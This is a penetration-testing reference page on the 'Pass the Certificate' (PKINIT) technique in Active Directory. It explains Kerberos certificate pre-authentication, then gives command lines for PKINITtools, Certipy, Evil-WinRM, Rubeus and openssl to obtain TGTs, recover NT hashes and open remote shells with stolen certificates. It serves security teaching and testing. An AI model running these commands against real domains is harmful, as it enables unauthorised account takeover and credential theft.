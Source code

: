 # Pass the Certificate - PKINIT

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. An ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](broken-reference)). The pre-authentication can be validated symmetrically (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates). The asymmetrical way of pre-authenticating is called PKINIT.

Pass the Certificate is the fancy name given to the pre-authentication operation relying on a certificate (i.e. key pair) to pass in order to obtain a TGT. This operation is often conducted along [shadow credentials](shadow-credentials.md), [AD CS escalation](broken-reference) and [UnPAC-the-hash attacks](unpac-the-hash.md).

{% hint style="info" %}
Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

The "certificate + private key" pair is usually used in the following manner

* PEM certificate + PEM private key
* PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
{% endhint %}

## Practice

{% hint style="danger" %}
If you encounter the error**`KDC_ERR_PADATA_TYPE_NOSUPP`**when attempting to pass the certificate through PKINIT, this may be an indication that the targeted KDC do not have certificates with the necessary EKUs (Extended Key Usages). Specifically, for a KDC to support PKINIT, its certificates must include the **`Smart Card Logon`** EKU.\
\
**However, you can try to** [**pass the certificate using Schannel**](../../../a-d/movement/schannel/pass-the-certificate-schannel.md)**.**
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
#### PKINITtools

From UNIX-like systems, [Dirk-jan](https://twitter.com/\_dirkjan)'s [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.

```python
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

The ticket obtained can then be used to

* authenticate with [pass-the-cache](ptc.md)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack. This can be done with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools/).
* obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from [PKINITtools](https://github.com/dirkjanm/PKINITtools).

#### Certipy

When using Certipy for Pass-the-Certificate, it automatically does [UnPAC-the-hash](unpac-the-hash.md) to recover the account's NT hash, in addition to saving the obtained TGT.

```bash
certipy auth -pfx <PATH_TO_PFX_CERT> -dc-ip <DC_IP> -username <user> -domain <DOMAIN_FQDN>
```

{% hint style="info" %}
Notes that Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.

```bash
certipy cert -export -pfx <PATH_TO_PFX_CERT> -password <CERT_PASSWORD> -out <unprotected.pfx>
```
{% endhint %}

#### Evil-WinRm

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) uses the [WinRM](../../../redteam/pivoting/winrm.md) protocol based on [Windows Management Instrumentation (WMI)](../../../redteam/pivoting/remote-wmi.md) to give us an interactive shell on a Windows host. Winrm Supports PKINIT, so we can authenticate with a certificate.

```bash
evil-winrm -i <TARGET_IP> -c <PATH_TO_PEM_CERT> -k <PATH_TO_PEM_KEY> -S -r <DOMAIN_REALM>
```

Evil WinRM doesn't directly support PFX files and need a PEM certificate and private key. The following commands can be used to convert a PFX file in PEM formats

```bash
# Exctract PEM certificate
openssl pkcs12 -in <PATH_TO_PFX_CERT> -clcerts -nokeys -out <PATH_TO_NEW_PEM_CERT>
# Extrcat PEM key
openssl pkcs12 -in <PATH_TO_PFX_CERT> -nocerts -out <ENC_PEM_KEY>
openssl rsa -in <ENC_PEM_KEY> -out <FINAL_PEM_KEY>
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).

```bash
Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```

{% hint style="info" %}
PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.

```bash
openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
```
{% endhint %}

{% hint style="info" %}
Certipy uses DER encryption. To generate a PFX for Rubeus, [openssl](https://www.openssl.org/) can be used.

```bash
openssl rsa -inform DER -in key.key -out key-pem.key
openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
```
{% endhint %}

The ticket obtained can then be used to

* authenticate with [pass-the-ticket](broken-reference)
* conduct an [UnPAC-the-hash](unpac-the-hash.md) attack (add the `/getcredentials` flag to Rubeus's asktgt command)
* obtain access to the account's SPN with an S4U2Self.
{% endtab %}
{% endtabs %}
